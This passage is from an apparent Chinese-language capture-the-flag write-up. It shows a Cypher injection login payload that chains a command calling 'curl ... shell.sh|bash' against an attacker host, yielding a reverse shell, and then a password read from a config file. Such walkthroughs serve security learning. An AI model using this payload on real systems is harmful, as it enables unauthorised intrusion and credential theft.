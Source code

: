 这里需要先返回**h.value**否则在比对密码的时候会直接报错，影响后面的执行

并且联合注入要求的两个列名必须相同，也就是**AS**后面接同样的列名

使用联合注入，调用这个**custom.getUrlStatusCode**

```
{
  "username": "admin' return h.value AS value  UNION CALL custom.getUrlStatusCode(\"127.0.0.1;curl 10.10.xx.xx/shell.sh|bash;\") YIELD statusCode AS value  RETURN value ; //",                                                                                                                                                  
  "password": "123"
}
```

**custom.getUrlStatusCode**是必须要执行成功才会返回**statusCode**，从而加入列的第二行。因此前面我插入的是**127.0.0.1**，保证能够返回一个正常状态码。

![](./images/image-37.png)

成功反弹到**Shell**，可以直接进入**/home/graphasm**

![](./images/image-38.png)

读取**bbot\_preset.yml**得到密码
